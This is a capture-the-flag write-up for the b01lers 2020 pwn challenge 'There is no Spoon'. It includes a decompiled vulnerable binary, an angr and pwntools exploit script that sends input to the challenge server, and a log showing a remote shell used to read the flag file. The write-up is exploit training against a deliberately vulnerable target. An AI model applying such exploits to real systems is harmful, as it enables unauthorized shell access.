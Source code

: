 # b01lers bootcamp CTF 2020

## There is no Spoon

> 100
>
> Neo: bend reality, and understand the truth of the matrix.
> 
> `nc chal.ctf.b01lers.com 1006`
> 
> [thereisnospoon](thereisnospoon)  
> [thereisnospoon.c](thereisnospoon.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _angr_


## Summary

I lazied my way out of this one and let [angr.io](angr.io) do all the work.  6 second solve.  Zero sweat.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anything goes but shellcode.


### Decompile with Ghidra

```
undefined8 main(void)
{
  ssize_t sVar1;
  size_t __size;
  char local_128 [256];
  long local_28;
  uint *local_20;
  void *local_18;
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_c = 0x100;
  printf("Neo, enter your matrix: ");
  sVar1 = read(0,local_128,(long)local_c);
  local_c = (int)sVar1;
  __size = strlen(local_128);
  local_18 = malloc(__size);
  local_20 = (uint *)malloc(4);
  *local_20 = 0xff;
  printf("Reality: %d\n",(ulong)*local_20);
  printf("Make your choice: ");
  sVar1 = read(0,local_18,(long)local_c);
  local_c = (int)sVar1;
  puts("Now bend reality. Remember: there is no spoon.");
  local_28 = xor((long)local_18,(long)local_128,local_c);
  printf("Result: %s\n",local_28);
  printf("Reality: %d\n",(ulong)*local_20);
  if (*local_20 != 0xff) {
    system("/bin/sh");
  }
  return 0;
}
```

We just need to figure out the correct input to change `*local_20`, _or do we?_

> _Why are we looking at the decompile when the source was provided?_
> 
> Because we need to tell _angr_ what to search for:

```
004013d2 e8 e9 fc        CALL       system
         ff ff
```

`0x4013d2` is our target.


## Exploit

```python
#!/usr/bin/env python3

import angr, time, io
from pwn import *

FIND_ADDR=0x4013d2
t=time.time()
bits = open('./thereisnospoon','rb').read()
proj = angr.Project(io.BytesIO(bits),auto_load_libs=False)
state = proj.factory.entry_state()
simgr = proj.factory.simulation_manager(state)
simgr.use_technique(angr.exploration_techniques.DFS())
simgr.explore(find=FIND_ADDR)
log.info(str(time.time() - t) + ' seconds')

binary = context.binary = ELF('./thereisnospoon')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1006)

p.send(simgr.found[0].posix.dumps(0))
p.interactive()
```

Not a lot here.  Set the find address to the address calling `system`, wait 6 seconds for _angr_ to do all the work for us, then just pass that along.


Output:

```bash
# ./exploit.py REMOTE=1
[*] 5.977146625518799 seconds
INFO    | 2020-10-04 21:05:10,983 | pwnlib.exploit | 5.977146625518799 seconds
[*] '/pwd/datajerk/b01lersbootcampctf2020/there_is_no_spoon/thereisnospoon'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
INFO    | 2020-10-04 21:05:11,041 | pwnlib.elf.elf | '/pwd/datajerk/b01lersbootcampctf2020/there_is_no_spoon/thereisnospoon'
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
[|] Opening connection to chal.ctf.b01lers.com on port 1006
INFO    | 2020-10-04 21:05:11,045 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.com Opening connection to chal.ctf.b01lers.com on port 1006: Trying 104.197.187.199
INFO    | 2020-10-04 21:05:11,100 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.[+] Opening connection to chal.ctf.b01lers.com on port 1006: Done
INFO    | 2020-10-04 21:05:11,169 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.com on port 1006: Done
[*] Switching to interactive mode
INFO    | 2020-10-04 21:05:11,171 | pwnlib.tubes.remote.remote.140324877945632 | Switching to interactive mode
Neo, enter your matrix: Reality: 255
Make your choice: Now bend reality. Remember: there is no spoon.
Result:
Reality: 0
$ id
uid=1000(strlenvsread) gid=1000(strlenvsread) groups=1000(strlenvsread)
$ ls -l
total 36
-r-xr-x--- 1 root strlenvsread    98 Oct  2 18:33 Makefile
-r--r----- 1 root strlenvsread    30 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root strlenvsread 17056 Oct  3 04:08 strlenvsread
-r-xr-x--- 1 root strlenvsread   912 Oct  2 18:33 strlenvsread.c
-r-xr-x--- 1 root strlenvsread    53 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{l0tz_0f_confUsi0n_vulnz}
```
